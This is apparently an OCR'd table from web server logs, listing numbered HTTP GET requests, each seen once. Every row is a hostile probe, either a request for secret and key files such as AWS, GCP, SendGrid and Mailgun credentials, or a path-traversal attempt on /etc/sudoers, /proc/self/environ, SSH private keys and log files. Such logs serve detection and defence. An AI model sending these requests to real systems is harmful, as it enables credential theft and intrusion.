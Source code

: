 |  673 |                     1 | GET /conf/application.yaml HTTP/1.1                           |
|  674 |                     1 | GET /config/routes.rb HTTP/1.1                                |
|  679 |                     1 | GET /config/database.go HTTP/1.1                              |
|  680 |                     1 | GET /config/env.go HTTP/1.1                                   |
|  683 |                     1 | GET /config/production.py HTTP/1.1                            |
|  684 |                     1 | GET /config/development.py HTTP/1.1                           |
|  763 |                     1 | GET /src/main/resources/security.properties HTTP/1.1          |
|  764 |                     1 | GET /src/main/resources/database.properties HTTP/1.1          |
|  782 |                     1 | GET /src/config/settings.ts HTTP/1.1                          |
|  786 |                     1 | GET /src/config/app.config.ts HTTP/1.1                        |
|  791 |                     1 | GET /src/environments/environment.staging.ts HTTP/1.1         |
|  814 |                     1 | GET /config/application-test.properties HTTP/1.1              |
|  965 |                     1 | GET /.mailgun/private_keys.json HTTP/1.1                      |
|  966 |                     1 | GET /config/secrets/aws_keys.json HTTP/1.1                    |
|  967 |                     1 | GET /config/secrets/gcp_keys.json HTTP/1.1                    |
|  968 |                     1 | GET /config/secrets/sendgrid.json HTTP/1.1                    |
|  969 |                     1 | GET /config/secrets/sendinblue.json HTTP/1.1                  |
|  970 |                     1 | GET /config/secrets/mailgun.json HTTP/1.1                     |
|  971 |                     1 | GET /config/private/aws_keys.json HTTP/1.1                    |
|  973 |                     1 | GET /config/private/sendgrid.json HTTP/1.1                    |
|  974 |                     1 | GET /config/private/sendinblue.json HTTP/1.1                  |
|  975 |                     1 | GET /config/private/mailgun.json HTTP/1.1                     |
|  981 |                     1 | GET /config/private/gcp_keys.json HTTP/1.1                    |
|  983 |                     1 | GET /../../../../etc/sudoers HTTP/1.1                         |
|  984 |                     1 | GET /../../../../proc/self/environ HTTP/1.1                   |
|  985 |                     1 | GET /../../../../proc/self/mounts HTTP/1.1                    |
|  986 |                     1 | GET /../../../../var/log/secure HTTP/1.1                      |
|  987 |                     1 | GET /../../../../var/log/messages HTTP/1.1                    |
|  988 |                     1 | GET /../../../../var/log/nginx/error.log HTTP/1.1             |
|  989 |                     1 | GET /.sendinblue/api_keys.json HTTP/1.1                       |
|  990 |                     1 | GET /../../../../var/log/mysql/mysql.log HTTP/1.1             |
|  991 |                     1 | GET /../../../../home/*/.ssh/id_rsa HTTP/1.1                  |
|  992 |                     1 | GET /../../../../home/*/.aws/credentials HTTP/1.1             |
|  993 |                     1 | GET /../../../../home/*/.sendgrid/keys.json HTTP/1.1          |
|  994 |                     1 | GET /../../../../home/*/.mailgun/private_keys.json HTTP/1.1   |
|  995 |                     1 | GET /.gcp/service_account_keys.json HTTP/1.1                  |
|  996 |                     1 | GET /.gcp/project_tokens.json HTTP/1.1                        |